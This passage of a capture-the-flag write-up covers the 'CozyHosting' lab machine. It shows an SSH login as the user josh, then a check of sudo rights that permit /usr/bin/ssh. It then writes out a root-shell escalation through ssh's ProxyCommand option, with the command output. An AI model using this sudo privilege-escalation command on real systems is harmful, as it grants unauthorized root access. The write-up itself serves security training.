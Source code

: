 
We find the josh's homefolder, so we can try the password to login to that user.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
app@cozyhosting:/app$ ls /home 
ls /home
josh

┌──(kali㉿kali)-[~]
└─$ ssh josh@cozyhosting.htb

josh@cozyhosting:~$ cat user.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


<br>

## Getting Root

### Information Gathering

Looking at *sudo -l*, we have permission to run */usr/bin/ssh/*

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Sorry, try again.
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


<br>

### Privilege Escalation

Spawn a root shell using sudo ssh through ProxyCommand option

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# ls
user.txt
# sudo -l
Matching Defaults entries for root on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User root may run the following commands on localhost:
    (ALL : ALL) ALL
# cd /root
# ls
root.txt
# cat root.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


